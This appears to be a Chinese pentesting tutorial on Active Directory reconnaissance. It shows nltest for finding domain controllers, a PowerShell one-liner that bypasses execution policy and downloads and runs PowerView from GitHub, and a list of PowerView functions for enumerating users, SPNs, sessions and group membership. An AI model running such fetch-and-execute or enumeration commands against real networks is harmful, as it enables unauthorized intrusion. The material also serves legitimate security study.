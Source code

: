 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/X0df1wgbeRuObk2S3auWRA)

![](https://mmbiz.qpic.cn/mmbiz_gif/3xxicXNlTXLicoXI3DQHCVPD0eHuzTPichibaSwnnBEQzhV6tSIkG6wmy6S0D2NkFRnhBARHvGj9oDF2dBt60KNh6A/640?wx_fmt=gif)

> **文章来****源：先知社区**

**信息收集**
--------

**网上各种前期信息收集的文章各种 net view 之类的太多了，一般想知道哪一台是域控知道自己内网的 DNS 就可以了, 一般域控安装都有安装 DNS 有些不止一台, 其次是通过扫描获取开放端口为 389 机器或者使用 nltest 命令查看。最后就是各种 net view 查看域控是哪台主机。**

```
nltest /DCLIST:pentest.com
```

这里利用 PowerTools 中的 PowerView 信息收集其实很多功能都是 net 命令这里只是以 PowerShell 方式实现

```
Powershell.exe -Nop -NonI -Exec Bypass "IEX (New.ObjectNet.WebClient).DownloadString('https://raw.githubusercontent.com/cheetz/PowerTools/master/PowerView/powerview.ps1');Get-HostIP"
```

```
域渗透信息收集PowerTools
https://github.com/cheetz/PowerTools
```

```
Get-NetDomain                   -   gets the name of the current user's domain
Get-NetForest                   -   gets the forest associated with the current user's domain
Get-NetForestDomains            -   gets all domains for the current forest
Get-NetDomainControllers        -   gets the domain controllers for the current computer's domain
Get-NetCurrentUser              -   gets the current [domain\]username
Get-NetUser                     -   returns all user objects, or the user specified (wildcard specifiable)
Get-NetUserSPNs                 -   gets all user ServicePrincipalNames
Get-NetOUs                      -   gets data for domain organization units
Get-NetGUIDOUs                  -   finds domain OUs linked to a specific GUID
Invoke-NetUserAdd               -   adds a local or domain user
Get-NetGroups                   -   gets a list of all current groups in the domain
Get-NetGroup                    -   gets data for each user in a specified domain group
Get-NetLocalGroups              -   gets a list of localgroups on a remote host or hosts
Get-NetLocalGroup               -   gets the members of a localgroup on a remote host or hosts
Get-NetLocalServices            -   gets a list of running services/paths on a remote host or hosts
Invoke-NetGroupUserAdd          -   adds a user to a specified local or domain group
Get-NetComputers                -   gets a list of all current servers in the domain
Get-NetFileServers              -   get a list of file servers used by current domain users
Get-NetShare                    -   gets share information for a specified server
Get-NetLoggedon                 -   gets users actively logged onto a specified server
Get-NetSessions                 -   gets active sessions on a specified server
Get-NetFileSessions             -   returned combined Get-NetSessions and Get-NetFiles
Get-NetConnections              -   gets active connections to a specific server resource (share)
Get-NetFiles                    -   gets open files on a server
Get-NetProcesses                -   gets the remote processes and owners on a remote server
```
